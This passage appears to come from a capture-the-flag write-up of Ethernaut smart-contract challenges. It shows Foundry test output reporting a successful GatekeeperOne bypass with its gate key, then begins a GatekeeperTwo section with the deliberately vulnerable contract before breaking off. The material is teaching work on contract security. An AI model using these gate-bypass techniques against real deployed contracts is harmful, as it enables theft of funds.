 ``` solidity

        vm.stopPrank();
    }
}

```
### 📋 Test Output

``` text
    [PASS] test_attack() (gas: ~XXXXX)
Logs:
  ✅ Attack Successful!
  i value: 456
  gasleft: 24873
  gateKey: abcdefab00001f38

Traces:
  [XXXXX] GateKeeperOneTest::test_attack()
    ├─ GatekeeperOne::enter(0xabcdefab00001f38)
    ├─ GatekeeperOne::entrant() ← 0x...player
    └─ assertTrue(true)

```
---
## GateKeeperTwo

**Attack Description**:
To bypass the three gates in the GatekeeperTwo contract, we strategically crafted a call using a helper contract.

### 🔍 Vulnerable Function

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(
            uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ 
                uint64(_gateKey) == 
                type(uint64).max
        );
        _;
    }

    function enter(bytes8 _gateKey) 
```